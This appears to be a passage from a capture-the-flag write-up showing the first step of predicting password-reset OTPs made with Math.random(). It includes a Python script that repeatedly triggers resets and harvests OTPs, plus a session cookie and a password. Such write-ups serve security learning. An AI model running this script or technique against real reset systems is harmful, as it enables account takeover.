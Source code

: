 The `Math.random()` function is not cryptographically-secure random number generator, so we can predict the OTP. We can use the tool https://github.com/d0nutptr/v8_rand_buster to predict the next Math.random() number that has been floored.

The solution idea is as follows:

1. Perform multiple password reset attempts for the user `d0nut` to collect several OTPs, which will be used to predict the next OTP.

`gather.py`

```py
import requests

for i in range(0,10):
    burp0_url = "http://localhost:9000/reset"
    burp0_cookies = {"connect.sid": "s%3ANAPOGAgF5O8LG8JGj-dJYIN5lgbyrKW6.Zp1PDaWTVaFtWan1Osv%2BKfgBPTQ4XBW1K5yng4lBees"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 GLS/100.10.9939.100", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://challenge.ctf.games:32749", "Connection": "close", "Referer": "http://challenge.ctf.games:32749/reset", "Upgrade-Insecure-Requests": "1", "sec-ch-ua-platform": "\"Windows\"", "sec-ch-ua": "\"Google Chrome\";v=\"125\", \"Chromium\";v=\"125\", \"Not=A?Brand\";v=\"24\"", "sec-ch-ua-mobile": "?0", "Priority": "u=0, i"}
    burp0_data = {"username": "d0nut"}
    requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


    burp0_url = "http://localhost:9000/reset/api/get-otp"
    burp0_cookies = {"connect.sid": "s%3ANAPOGAgF5O8LG8JGj-dJYIN5lgbyrKW6.Zp1PDaWTVaFtWan1Osv%2BKfgBPTQ4XBW1K5yng4lBees"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 GLS/100.10.9939.100", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://challenge.ctf.games:32749", "Connection": "close", "Referer": "http://challenge.ctf.games:32749/reset", "Upgrade-Insecure-Requests": "1", "sec-ch-ua-platform": "\"Windows\"", "sec-ch-ua": "\"Google Chrome\";v=\"125\", \"Chromium\";v=\"125\", \"Not=A?Brand\";v=\"24\"", "sec-ch-ua-mobile": "?0", "Priority": "u=0, i"}
    burp0_data = {"username": "d0nut", "password": "d0nutboi"}
    r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

    otp = r.json()['otp']

    f = open('codes.txt', 'a')
    f.write(str(otp) + "\n")

    f.close()
```

<img width="477" alt="image" src="https://github.com/user-attachments/assets/23fba62c-95b6-42ed-8bfa-acc5c9348e22" />
